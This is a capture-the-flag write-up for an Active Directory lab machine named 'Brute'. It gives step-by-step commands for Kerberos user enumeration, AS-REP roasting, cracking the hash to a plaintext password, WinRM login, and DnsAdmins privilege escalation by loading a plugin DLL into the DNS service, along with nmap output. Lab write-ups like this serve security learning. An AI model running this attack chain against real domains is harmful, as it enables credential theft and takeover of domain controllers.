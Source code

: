 ```yaml
---
tags: [AD, Challenge, Video]
title: Brute
created: '2020-10-01T16:49:24.034Z'
modified: '2020-10-02T17:43:24.127Z'
---
```


# Brute
- IP: `172.31.3.3`
- OS: `Active Directory`
## Enumeration
### Writeup
We try to enumerate usernames and find 4.
We perform an ASREPRoast on these names: `GetNPUsers.py -usersfile users -dc-ip 172.31.3.3 -outputfile ASREPHash BRUTE.CSL/`
We get a hash for `Tess` and crack it to `Unique1`: `john --wordlist=/usr/share/wordlists/rockyou.txt ASREPHash`
We can login to winrm: `crackmapexec winrm -u tess -p Unique1 --continue-on-success 172.31.3.3`
`evil-winrm -i 172.31.3.8 -u tess -p Unique1`

`upload plugin.dll`
`dnscmd /config /serverlevelplugindll C:\Users\Tess\Documents\plugin.dll`
`sc.exe stop dns`
`sc.exe start dns`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.3.3`
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-10-01 16:55:19Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: brute.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: brute.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BRUTE
|   NetBIOS_Domain_Name: BRUTE
|   NetBIOS_Computer_Name: BRUTE-DC
|   DNS_Domain_Name: brute.csl
|   DNS_Computer_Name: Brute-DC.brute.csl
|   DNS_Tree_Name: brute.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2020-10-01T16:57:51+00:00
| ssl-cert: Subject: commonName=Brute-DC.brute.csl
| Issuer: commonName=Brute-DC.brute.csl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-26T20:13:21
| Not valid after:  2020-11-25T20:13:21
| MD5:   4508 b6eb 2a3d 87ff ad65 9c3e 14de 07b5
|_SHA-1: ef51 fe08 c315 ac7f 0dc5 3a22 b264 d28b 7fd4 153a
|_ssl-date: 2020-10-01T16:58:07+00:00; +2s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49743/tcp open  msrpc         Microsoft Windows RPC
```

- `nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='BRUTE',userdb=/usr/share/wordlists/SecLists/Usernames/Names/names.txt 172.31.3.3`
```
PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|     darleen@BRUTE
|     tess@BRUTE
|     malcolm@BRUTE
|_    patrick@BRUTE
```
</details>

<details>
<summary></summary>

- ``
```

```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
